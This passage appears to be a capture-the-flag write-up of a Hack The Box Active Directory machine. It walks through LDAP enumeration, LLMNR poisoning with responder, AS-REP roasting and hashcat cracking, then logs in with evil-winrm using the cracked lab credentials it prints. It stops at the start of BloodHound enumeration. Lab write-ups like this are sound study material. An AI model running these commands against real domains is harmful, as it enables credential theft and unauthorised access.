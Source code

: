 ### Port 389/3268 (LDAP)

```bash
ldapsearch -H ldap://$IP -x -s base -b '' "(objectClass=*)" "*" +
```

Nothing interesting.

## Initial Attack Vectors

### LLMNR Poisoning

```bash
sudo responder -I <interface> -dwv 
```

I waited a bit but nothing returned.

### AS-REP Roasting

```bash
GetNPUsers.py htb.local/ -dc-ip $IP -no-pass -usersfile users
```

![image.png](image%205.png)

```bash
hashcat -m 18200 svc-alfresco.hash /usr/share/wordlists/rockyou.txt --force
```

![image.png](image%206.png)

## Credentials

```bash
svc-alfresco : s3rvice
```

Let’s try the user password with evil-winrm:

```bash
evil-winrm -i $IP -u svc-alfresco -p s3rvice
```

As I am a service account I checked for my privileges, but I don’t have much privileges.

![image.png](image%207.png)

We have another user `sebastien` most probably we should lateral move.

## Lateral Movement

I used the same password for `sebastien` but coudn’t login.

Let’s perform enumeration using BloodHound.
